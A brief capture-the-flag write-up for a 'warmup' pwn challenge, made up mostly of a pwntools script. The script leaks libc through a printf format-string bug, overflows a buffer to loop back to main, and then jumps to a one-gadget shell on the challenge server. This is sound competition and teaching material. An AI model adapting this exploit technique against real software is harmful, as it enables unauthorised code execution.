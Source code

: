 This problem has many vulnerabilities. There is an obvious printf vulnerability as well as a buffer overflow. So we trigger the printf to leak libc while also overwriting the return address to main to let it loop again, then call a one-shot shell to get the flag.

```
from pwn import *
#p=process("./warmup")
p=remote("nothing.chal.ctf.westerns.tokyo", 10001)
p.recvuntil(":)")
p.recvline()
pay="%7$saaaa"+p64(0x601018)
p.sendline(pay+"\x00"*(0x100-len(pay))+p64(0x4006BA))
x=p.recv(6)
libc=(u64(x+'\x00\x00'))
libc-=0x809c0
libb=libc+0x1b3e9a
libc+=0x10a38c
print hex(libb)
#gdb.attach(p)

p.sendline("\x00"*0x108+p64(libc)+p64(libc)+p64(0x400773)+"\x00"*0x100)
p.interactive()
```
